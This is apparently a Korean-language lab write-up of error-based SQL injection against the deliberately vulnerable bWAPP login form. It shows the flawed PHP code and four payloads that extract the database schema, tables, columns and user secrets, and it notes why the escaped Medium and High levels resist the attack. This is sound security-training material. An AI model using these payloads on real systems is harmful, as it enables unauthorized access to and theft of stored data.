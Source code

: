 ```yaml
---
layout: single
title: SQL Injection (Login Form/User)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image.png)
- Login Form이 존재

![그림 1-2](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image2.png)
- '(싱글 쿼터) 입력시 DBMS Error가 발생

![그림 1-3](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image3.png)
- Error 은 발생하였으나, 일반적인 우회는 되지 않음.

### 검증 로직
```php
137         $login = $_POST["login"];
138         $login = sqli($login);
139 
140         $password = $_POST["password"];
141         $password = sqli($password);
142         $password = hash("sha1", $password, false);
143 
144         $sql = "SELECT * FROM users WHERE login = '" . $login . "'";
145 
146         // echo $sql;
147 
148         $recordset = mysql_query($sql, $link);
149 
150         if(!$recordset)
151         {
152 
153             die("Error: " . mysql_error());
154 
155         }
156 
157         else
158         {
159 
160             $row = mysql_fetch_array($recordset);
161 
162             if($row["login"] && $password == $row["password"])
163             {
164 
165                 // $message = "<font color=\"green\">Welcome " . ucwords($row["login"]) . "...</font>";
166                 $message =  "<p>Welcome <b>" . ucwords($row["login"]) . "</b>, how are you today?</p><p>Your secret: <b>" . ucwords($row["secret"        ]) . "</b></p>";
167                 // $message = $row["login"];
168 
169             }
170 
171             else
172             {
173 
174                 $message = "<font color=\"red\">Invalid credentials!</font>";
175 
176             }
```
- 해당 로직을 구현하는 코드이다.
- 입력받는 값을 보게되면 미완성된 SQL 구문에 첫 쿼리 password 없이 login 값만 쿼리에 추가시켜 완성된 구문을 만든다.
- 그 후 DB에 저장되어 있는 password값과 입력한 password값을 비교하고 login 값과 비교 후 맞으면 로그인 된다.
- 해당 로직은 일바적은 SQL Injection 를 통한 인증 우회는 되지 않는다.
- 이 때 153번줄을 보게 되면 DBMS Error을 출력하괴 되므로 Error Based 공격이 가능하다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT schema_name FROM information_schema.schemata LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.schemata GROUP BY a LIMIT 0,1)b)--
```

![그림 1-4](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image4.png)

- DB 추출 성공
- 이후 순차적으로 테이블, 컬럼, 데이터를 추출했다.

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT table_name FROM information_schema.tables where table_schema='bWAPP' LIMIT 3,1), FLOOR(rand(0)*2))a FROM information_schema.tables GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT column_name FROM information_schema.columns where table_schema='bWAPP' and table_name='users' LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

```sql
'and (SELECT 1 FROM (SELECT COUNT(*),concat((SELECT concat(login,0x3a,id,0x3a,secret) from bWAPP.users LIMIT 1,1), FLOOR(rand(0)*2))a FROM information_schema.columns GROUP BY a LIMIT 0,1)b)--
```

![그림 1-5](/assets/image/bwapp/injection/sqli-user-archive/sqli-user/image5.png)
- 성공적으로 데이터를 추출할 수 있다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

